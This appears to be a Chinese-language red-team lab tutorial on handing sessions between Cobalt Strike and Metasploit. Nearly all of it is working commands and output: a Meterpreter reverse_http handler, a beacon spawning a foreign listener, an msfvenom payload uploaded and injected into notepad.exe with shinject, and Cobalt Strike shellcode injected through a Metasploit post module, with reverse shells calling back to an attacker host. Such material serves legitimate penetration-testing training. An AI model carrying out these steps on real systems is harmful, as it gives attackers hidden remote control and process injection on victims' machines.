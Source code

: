 # Session Passing

Cobalt Strike和其他一些C2框架（如metasploit）互相传递session，这样做的好处有：

利用 Cobalt Strike 所没有的框架内的功能。
如果当前访问丢失，请使用不同的 C2 框架作为备份访问。
模拟类似的 TTP。

# Cobalt Strike->metasploit

1. 首先在metasploit起一个监听，需要使用```windows/meterpreter/reverse_http```payload (只支持x86 Meterpreter)

```
root@kali:~# msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://10.10.5.120:8080
```

2. 记住上面的IP：10.10.5.120，端口:8080

3. Cobalt Strike建立一个监听，监听的名字是：metasploit

```
In Cobalt Strike, go to Listeners > Add and set the Payload to Foreign HTTP. Set the Host to 10.10.5.120, the Port to 8080 and click Save.
```

4. 传递session到msf
```
beacon> spawn metasploit
[*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.120:8080)
```

5. msf接收到session
```
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: ofosht99) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.120:8080 -> 10.10.17.231:53951)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  DEV\bfarmer @ WKSTN-1  10.10.5.120:8080 -> 10.10.17.231:53951 (10.10.17.231)
```

# 在Cobalt Strike使用```shinject ```命令把msf的payload注入到靶机进程

1. msf生成payload（支持x64）
```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.120 LPORT=8080 -f raw -o /tmp/msf.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201308 bytes
Saved as: /tmp/msf.bin
```

2. 上传到靶机
```
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```

3. 注入进程，这里选择记事本（notepad.exe）
```
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           DEV\bfarmer

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

4. msf收到rev shell
```
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.120:8080
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Redirecting stageless connection from /N1ZSg3AJ641CWUNbIhhT5QWcTIqjJ_npAOt9u8b01bCZLPFvg0YNTQPPZpC2osS8NoHGOLaUyHHR with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.120:8080 -> 10.10.17.231:53793)
```

# 从msf的session注入Cobalt Strike的payload到靶机的进程中

1. Cobalt Strike生成payload, select Raw as the Output type and select Use x64 payload
```
Attacks > Packages > Windows Executable (S)
```

2. 传到kali攻击机

3. 使用的msf的```post/windows/manage/shellcode_inject```模块，把Cobalt Strike的payload注入到进程中

```
msf6 > use post/windows/manage/shellcode_inject
msf6 post(windows/manage/shellcode_inject) > set SESSION 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > run

[*] Running module against WKSTN-1
[*] Spawned Notepad process 4560
[+] Successfully injected payload into process: 4560
[*] Post module execution completed
```